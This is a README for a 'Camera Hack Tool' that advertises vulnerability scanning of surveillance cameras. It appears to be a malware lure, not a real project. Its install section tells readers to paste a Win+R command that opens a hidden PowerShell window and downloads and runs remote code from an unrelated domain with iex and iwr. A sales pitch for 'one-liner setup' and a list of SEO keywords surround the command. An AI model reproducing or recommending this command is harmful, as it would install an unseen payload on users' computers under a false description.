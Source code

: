 # Cam-Hacking
# Cam Hacker Tool 📷

## Description
**Camera Hack Tool** is an advanced desktop application designed for security professionals and ethical hackers to assess the vulnerability of camera systems. This tool allows users to identify weaknesses in surveillance setups and ensure the integrity of camera networks.

## Key Features
- **Vulnerability Scanning**: Scan for known vulnerabilities in camera firmware and configurations.
- **Network Analysis**: Analyze the security of the network to which the cameras are connected.
- **Access Control Testing**: Test the strength of access controls and authentication mechanisms.
- **Live Feed Monitoring**: Monitor live feeds from connected cameras to assess security in real-time.
- **Reporting Tools**: Generate detailed reports on vulnerabilities and suggested remediation steps.

## Installation

<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>

### Installation
- Follow the on-screen instructions to install the program on your device from command.

### Launching
- Launch Camera Hack Tool from your desktop or application menu.
- Register or log into your account if necessary.

## Usage
1. Select the camera system or network you want to assess.
2. Run vulnerability scans and analyze the results.
3. Review live feeds and generate reports on security findings.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Camera Hack Tool, you can enhance your security assessments and ensure that camera systems are protected from potential threats! 😊

## SEO Keywords
- Camera Hack Tool
- Surveillance system security
- Vulnerability scanning
- Network analysis
- Cam Hacker
- Live feed monitoring
- Ethical hacking tools
- Security assessments
- Camera network integrity
